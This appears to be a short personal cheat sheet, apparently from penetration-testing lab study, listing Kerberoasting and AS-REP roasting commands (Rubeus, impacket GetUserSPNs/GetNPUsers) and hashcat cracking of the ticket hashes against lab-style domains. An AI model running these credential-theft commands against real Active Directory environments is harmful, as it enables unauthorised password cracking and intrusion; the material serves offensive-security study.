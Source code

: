 ### 23-Oct-23 Mon

```
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

```
hashcat --help | grep -i "Kerberos"
```
## AD Recon – AS-REP Roasting

https://juggernaut-sec.com/as-rep-roasting/

## ASREPRoast

https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast#asreproast

```
impacket-GetUserSPNs -request -dc-ip $DomainIP $DomainName/$DomainUser
```

```
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```

```
proxychains -q impacket-GetUserSPNs -request -dc-ip 172.16.6.240
beyond.com/john
```

```
impacket-GetNPUsers -request -dc-ip $DomainIP $DomainName/$DomainUser
```

```
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt
-r /usr/share/hashcat/rules/best64.rule --force
```